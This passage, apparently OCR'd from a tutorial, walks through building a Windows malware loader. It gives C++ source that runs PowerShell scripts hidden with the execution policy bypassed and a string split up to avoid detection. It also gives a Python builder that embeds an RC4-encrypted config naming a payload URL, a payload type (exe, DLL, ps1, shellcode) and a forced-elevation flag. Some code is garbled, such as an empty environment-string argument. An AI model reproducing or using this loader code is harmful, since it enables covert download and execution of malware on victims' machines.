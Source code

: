 ```
}
```

running PS scripts:
```
void RunPS(LPCWSTR ps_path) {
    WCHAR powershell[1025] = { 0 };

    if (!ExpandEnvironmentStringsW(L"", powershell, 1024)) {
        return;
    }

    WCHAR args[1025] = { 0 };
    WCHAR open[] = { 'o', 'p', 'e','n', 0, 0 };

    wsprintfW(args, L"-ExecutionPolicy Bypass -f \"%s\"", ps_path);
    ShellExecuteW(0, open, powershell, args, nullptr, SW_HIDE);
}
```
Do not forget to disable ExecutionPolicy in the parameters, because with ExecutionPolicy enabled, the script may not work under certain conditions.
And the last touch, depending on the type of payload, we launch using the appropriate method:

Now let's start writing the builder. We will use Python, because it makes it faster due to the simplicity of the language. We copy the stub loader file from the Release folder, read the contents and look for the signature. We calculate the offset to the signature, form the config and write it back:
```
if __name__ == '__main__':
    shutil.copy('..\\Release\\FastLdr.exe', 'build.exe')
    with open('build.exe', 'rb+') as stub_file:
        data = stub_file.read()
        signature_pos = data.find(b'INSERT_CONFIG_HERE')
        stub_file.seek(signature_pos)
        stub_file.write(get_encrypted_config())
```
The code for generating the config is quite simple, the numbers are encoded using the struct library:
```
def payload_type_to_number() -> int:
    if PAYLOAD_TYPE == 'exe':
        return 1
    elif PAYLOAD_TYPE == 'dll_rundll32':
        return 2
    elif PAYLOAD_TYPE == 'dll_regsvr32':
        return 3
    elif PAYLOAD_TYPE == 'ps1':
        return 4
    elif PAYLOAD_TYPE == 'shellcode':
        return 5

def get_config() -> bytes:
    encoded_url = URL.encode('utf-16-le')
    encoded_export_function = EXPORT_FUNCTION.encode('utf-16-le')

    return struct.pack('=L', len(encoded_url)) + encoded_url + struct.pack('=L', payload_type_to_number()) + struct.pack('=L', len(encoded_export_function)) + encoded_export_function + struct.pack('?', FORCE_ELEVATE)

def get_encrypted_config() -> bytes:
    key = secrets.token_bytes(8)
    cipher = ARC4(key)
    encrypted_config = cipher.encrypt(get_config())

    return key + struct.pack('=L', len(encrypted_config)) + encrypted_config
```